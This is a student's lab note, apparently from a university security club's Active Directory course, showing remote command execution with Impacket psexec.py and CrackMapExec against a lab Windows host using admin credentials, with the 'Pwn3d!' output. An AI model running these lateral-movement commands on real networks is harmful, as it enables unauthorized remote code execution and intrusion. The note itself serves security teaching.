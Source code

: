 ```yaml
---
title: NTUSTISC - AD Note - Lab(遠端執行(RDP)2)
tags: [NTUSTISC, AD, information security]

category: "Security/Course/NTUST ISC/AD/4. 遠端執行-讀檔"
---
```


# NTUSTISC - AD Note - Lab(遠端執行(RDP)2)
[TOC]

Lecture Video: [ 2022/05/11 AD 安全 2 ](https://youtu.be/ubNMQ7_dcm0?si=26g2Lz2CB-O-7S5d)

## Background
[NTUSTISC - AD Note - Lab(Password Spraying)](https://hackmd.io/@SBK6401/Byk16MV0n)
[滲透測試的利器 - Impacket](https://sectools.tw/impacket/): 
> python撰寫的內網滲透工具

## Lab

### ==遠端執行(RDP)2==
* Kali-Linux Tools
    * Impacket(Kali-Linux愛好者可使用的PsExec)
        ```bash
        # Set up & Install
        $ git clone https://github.com/fortra/impacket.git
        $ cd impacket
        $ conda activate py3.7 # Recommended to install it in conda
        $ pip3 install -r requirements.txt
        $ python3 setup.py install
        
        # Cheat-Sheet
        $ conda activate py3.7
        $ proxychains psexec.py <username>:<password>@<ip> whoami
        ```
    * CrackMapExec
        ```bash
        $ crackmapexec smb [IP] -u <username> -p <password --exec-method smbexec -x '<command>'
        ```
        exec-method支援以下方法:
            * mmcexec
            * smbexec
            * wmiexec
            * atexec

#### ==How to use Impacket==
感覺應該是proxychains壞掉了，或是有一些其他問題，導致Connection Refused，總而言之，這套工具就是讓kali-linux也可以使用psexec這個工具
```bash
$ proxychains psexec.py kuma\administrators:1qaz@WSX3edc@192.168.222.129 dir
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.12.0.dev1+20230928.173259.06217f05 - Copyright 2023 Fortra

[proxychains] Strict chain  ...  127.0.0.1:9050  ...  timeout
[-] [Errno Connection error (192.168.222.129:445)] [Errno 111] Connection refused
```

#### ==How to use CrackMapExec==
還記的之前的Lab([NTUSTISC - AD Note - Lab(Password Spraying)](https://hackmd.io/@SBK6401/Byk16MV0n))，有使用過這套工具，當時是為了做密碼揮灑的目的，不過考慮到psexec這個工具本質上就是爬到遠端的主機，然後開execve的process，並且跟他溝通，所以在這樣的前提下，就可以直接用CrackMapExec達到和psexec一樣的效果，畢竟兩者本質是做的事情差不多
:::spoiler Execution Result
```bash
$  crackmapexec smb 192.168.222.129 -u administrator -p 1qaz@WSX3edc --exec-method smbexec -x 'dir C:\tools'
SMB         192.168.222.129 445    DESKTOP-G95U93T  [*] Windows 10.0 Build 18362 x64 (name:DESKTOP-G95U93T) (domain:kuma.org) (signing:False) (SMBv1:False)
SMB         192.168.222.129 445    DESKTOP-G95U93T  [+] kuma.org\administrator:1qaz@WSX3edc (Pwn3d!)
SMB         192.168.222.129 445    DESKTOP-G95U93T  [+] Executed command via smbexec
SMB         192.168.222.129 445    DESKTOP-G95U93T  ║╧║╨░╧ C ññ¬║║╧║╨¿Sª│╝╨┼╥íC
SMB         192.168.222.129 445    DESKTOP-G95U93T  ║╧║╨░╧º╟╕╣:  C230-62CE
SMB         192.168.222.129 445    DESKTOP-G95U93T  
SMB         192.168.222.129 445    DESKTOP-G95U93T  C:\tools ¬║Ñ╪┐²
SMB         192.168.222.129 445    DESKTOP-G95U93T  
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/09/17  ñUñ╚ 03:15    <DIR>          .
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/09/17  ñUñ╚ 03:15    <DIR>          ..
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/09/04  ñWñ╚ 12:57    <DIR>          AccessChk
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/06/22  ñUñ╚ 02:58         1,379,216 accesschk.exe
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/08/28  ñUñ╚ 11:41    <DIR>          BloodHound-master
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/08/27  ñWñ╚ 11:32    <DIR>          BloodHound-win32-x64
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/08/29  ñWñ╚ 01:24    <DIR>          BloodHound-win32-x64-4.1.0
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/29  ñWñ╚ 01:19           373,760 Certify.exe
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/29  ñUñ╚ 02:39         1,137,664 DNSAdmin-DLL.dll
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/09/04  ñWñ╚ 10:02           443,650 Invoke-NinjaCopy.ps1
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/29  ñUñ╚ 04:50    <DIR>          KDU-1.1.0
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/09/17  ñUñ╚ 12:08             1,590 Kerberos-AS-REP.txt
SMB         192.168.222.129 445    DESKTOP-G95U93T  2005/01/17  ñUñ╚ 05:23            22,528 KmdManager.exe
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/29  ñUñ╚ 04:50    <DIR>          mimikatz_trunk
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/08/27  ñWñ╚ 11:31    <DIR>          neo4j-community-4.3.4
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/29  ñUñ╚ 04:51    <DIR>          nopad
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/28  ñUñ╚ 11:09            27,136 PrintSpoofer64.exe
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/09/05  ñWñ╚ 11:51    <DIR>          Procdump
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/29  ñUñ╚ 05:08    <DIR>          ProcessExplorer
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/29  ñUñ╚ 05:08    <DIR>          PSTools
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/29  ñWñ╚ 12:27           301,056 Rubeus.exe
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/09/04  ñUñ╚ 11:33    <DIR>          Sysmon
SMB         192.168.222.129 445    DESKTOP-G95U93T  2021/09/29  ñUñ╚ 04:50    <DIR>          Windows-Kernel-Explorer-master
SMB         192.168.222.129 445    DESKTOP-G95U93T  2023/09/06  ñWñ╚ 11:12    <DIR>          Zip Folders
SMB         192.168.222.129 445    DESKTOP-G95U93T  8 ¡╙└╔«╫       3,686,600 ª∞ñ╕▓╒
SMB         192.168.222.129 445    DESKTOP-G95U93T  16 ¡╙Ñ╪┐²  16,192,659,456 ª∞ñ╕▓╒ÑiÑ╬
```
:::

## Reference
